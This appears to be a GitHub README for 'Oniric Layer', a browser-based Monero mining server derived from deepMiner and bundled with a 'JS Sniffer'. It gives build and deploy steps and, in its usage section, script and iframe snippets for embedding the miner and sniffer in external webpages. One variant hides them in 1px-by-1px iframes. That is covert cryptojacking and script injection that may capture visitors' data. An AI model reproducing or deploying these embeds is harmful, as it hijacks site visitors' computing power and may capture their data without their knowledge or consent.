 # Oniric Layer

[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

* private XMR Server worker that work for one wallet 
complete typescript refactoring and optimization 
of https://github.com/deepwn/deepMiner

* JS Sniffer with no memory database on backend

## Installation (Developers Only)

* First Usage
```sh
  npm i
  npm run build
```
* Development Mode
```sh
 npm run dev
```
* Production Mode
```sh
 npm run prod
```
* Continuos Development and integration
1) First Shell
```sh
 gulp dev
```
2) Second Shell
```sh
 npm run dev
```


## Considerations

to run executable generated by pkg you must modify ecosystem.config.js file
and replace script parameter with ./dist/build/Oniric with given extension

## Testing

Work in progress 


## Server Deploy

1. copy dist/build/*.js or dist/build/Oniric.*  and ecosystem.config.js in a new directory
2. modify ecosystem.config.js script parameter and name parameter
3. Copy and modify dist/build/config.json with your parameters
4. Copy dist/build/web
5. Upload via FTP on your server
6. run these commands on your server via SSH
```sh
 npm i -g pm2
 pm2 start ecosystem.config.js
```
 -  Or the fast way 

1. Copy build/dist and delete app.js and build/dist/libs
2. Modify config.json with your parameters
3. Upload via FTP on your server
4. Run these commands on your server via SSH
```sh
 npm i -g pm2
 pm2 start ecosystem.config.js
```

- Alternative execute application (without pm2)
```
./Oniric

```

## Usage (Add to external webpage)

* Classic Config

```
<script src="server/lib/Sniffer.js"> </script>
<script src="server/lib/oniric.min.js"> </script>
<script> var userID = 'Oniric';
         var miner = new Oniric.Init(userID, {
         	autoThreads: true`
         });
         miner.start(); 
 </script>
```

* IFrame Based

```
<iframe style="display:block" width="1px" height="1px" src="yourserver:port/miner.html"></iframe>
<iframe style="display:block" width="1px" height="1px" src="yourserver:port/Sniffer.js"></iframe>
```



## Contributing

1. Fork it!
2. Create your feature branch: `git checkout -b my-new-feature`
3. Commit your changes: `git commit -am 'Add some feature'`
4. Push to the branch: `git push origin my-new-feature`
5. Submit a pull request :D


## Credits

https://github.com/webdiamond
https://github.com/deepwn


## Road Map

1. Testing
2. Complete typescript integration
3. mongodb support
4. encryption layer
5. Telegram API